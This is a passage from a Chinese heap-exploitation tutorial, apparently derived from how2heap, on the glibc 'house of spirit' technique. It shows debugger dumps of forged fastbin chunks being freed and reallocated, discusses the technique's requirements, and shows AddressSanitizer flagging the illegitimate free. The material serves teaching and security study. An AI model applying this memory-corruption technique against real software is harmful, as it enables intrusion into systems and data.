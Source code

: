 然后修改指针 a 指向 (fake chunk 1 + 0x10) 的位置，即上面提到的 `mem`。然后将其传递给 free 函数，这时程序就会误以为这是一块真的 chunk，然后将其释放并加入到 fastbin 中。
```
gef➤  x/gx &a
0x7fffffffdca0:	0x00007fffffffdcc0
gef➤  x/10gx &fake_chunks 
0x7fffffffdcb0:	0x0000000000000000	0x0000000000000020  <-- fake chunk 1 [be freed]
0x7fffffffdcc0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcd0:	0x0000000000000001	0x0000000000001234  <-- fake chunk 2
0x7fffffffdce0:	0x4141414141414141	0x0000000000000000
0x7fffffffdcf0:	0x0000000000400820	0x00000000004005b0
gef➤  heap bins fast
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x7fffffffdcc0, size=0x20, flags=) 
```

这时如果我们 malloc 一个对应大小的 fast chunk，程序将从 fastbins 中分配出这块被释放的 chunk。
```
gef➤  x/10gx &fake_chunks 
0x7fffffffdcb0:	0x0000000000000000	0x0000000000000020  <-- new chunk
0x7fffffffdcc0:	0x4242424242424242	0x0000000000000000
0x7fffffffdcd0:	0x0000000000000001	0x0000000000001234  <-- fake chunk 2
0x7fffffffdce0:	0x4141414141414141	0x0000000000000000
0x7fffffffdcf0:	0x0000000000400820	0x00000000004005b0
gef➤  x/gx &b
0x7fffffffdca8:	0x00007fffffffdcc0
```
所以 house-of-spirit 的主要目的是，当我们伪造的 fake chunk 内部存在不可控区域时，运用这一技术可以将这片区域变成可控的。上面为了方便观察，在 fake chunk 里填充一些字母，但在现实中这些位置很可能是不可控的，而 house-of-spirit 也正是以此为目的而出现的。

该技术的缺点也是需要对栈地址进行泄漏，否则无法正确覆盖需要释放的堆指针，且在构造数据时，需要满足对齐的要求等。

加上内存检测参数重新编译，可以看到问题所在，即尝试 free 一块不是由 malloc 分配的 chunk：
```
$ gcc -fsanitize=address -g house_of_spirit.c 
$ ./a.out 
We will overwrite a pointer to point to a fake 'fastbin' region. This region contains two chunks.
The first one:  0x7fffa61d6c00
The second one: 0x7fffa61d6c20
Overwritting our pointer with the address of the fake region inside the fake first chunk, 0x7fffa61d6c00.
Freeing the overwritten pointer.
=================================================================
==5282==ERROR: AddressSanitizer: attempting free on address which was not malloc()-ed: 0x7fffa61d6c10 in thread T0
    #0 0x7fc4c3a332ca in __interceptor_free (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x982ca)
    #1 0x400cab in main /home/firmyy/how2heap/house_of_spirit.c:24
    #2 0x7fc4c35f182f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #3 0x4009b8 in _start (/home/firmyy/how2heap/a.out+0x4009b8)
```


## 参考资料
- [how2heap](https://github.com/shellphish/how2heap)
- [Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)
- <<Glibc堆利用的若干方法>>
